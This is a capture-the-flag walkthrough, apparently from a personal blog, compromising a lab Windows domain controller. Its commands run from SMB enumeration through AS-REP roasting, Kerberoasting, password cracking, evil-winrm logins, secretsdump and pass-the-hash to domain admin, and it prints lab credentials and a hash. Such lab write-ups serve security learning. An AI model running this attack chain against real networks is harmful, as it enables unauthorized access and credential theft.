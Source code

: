 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)




## Exploitation

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

We obtained the hash for the user t-skid. We can try brute force it:

```
john hash1 --wordlist=/home/kali/rockyou.txt 
```

![crackedhash](/images/crackedhash.jpg)

Now let's try to find some SPN associated with user accounts. Result should be a file with encrypted password(s).

```
impacket-GetUserSPNs 'VULNNET-RST.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.171.250 
```

![GetUserSPNs](/images/SPN.jpg)

![hash2](/images/hash2.jpg)

Now we can try crack it the same way as before:

![cracked2](/images/cracked2.jpg)

We have now the cracked password for the account **'enterprise-core-vn'**. Let's attempt a remote connection:

```
evil-winrm -i 10.10.171.250 -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' 
```

![remote](/images/remote.jpg)

It worked! Let's try find the flag. Usually is in the same folder or near.

![flag1](/images/flag1.jpg)

And we got the first flag. 

Now let's map the SMB again but this time with a valid user.

```
smbmap -H 10.10.171.250 -u enterprise-core-vn -p 'ry=ibfkfv,s6h,'
```

![smb3](/images/smb3.jpg)

We get shares that are now readable. Let's dig more.

```
smbclient \\\\10.10.171.250\\SYSVOL -U 'enterprise-core-vn%ry=ibfkfv,s6h,'
```

![sysvol](/images/sysvol.jpg)

We found some interesting folders. Let's dig.

![scripts](/images/script.jpg)

We found a script and when we check what does it do, we find some credentials for user **a-whitehat**!

![scriptcreds](/images/scripcreds.jpg)



## Privilege escalation

Let's try to connect:

```
evil-winrm -i 10.10.31.71 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
```

It works! and if we run the below, we see the user is DOMAIN ADMIN!

![domainadmin](/images/domainadmin.jpg)

I found the system.txt within 'C:\Users\Administrator\Desktop', but the file itself is not readable by the user. We can use secretsdump to try dumping the Administrator account.

```
impacket-secretsdump VULNNET-RST.local/a-whitehat:bNdKVkjv3RR9ht@10.10.31.71
```

We found all hashes but what we really want is the Administrator one that we got here.

![admin](/images/admin.jpg)

We don't need to crack the hash, we can just use it with Evil-WinRM:

```
evil-winrm -i 10.10.31.71 -u 'Administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d'
```

It worked! And now we can read the system.txt file to grab the system flag.

![root](/images/root.jpg)
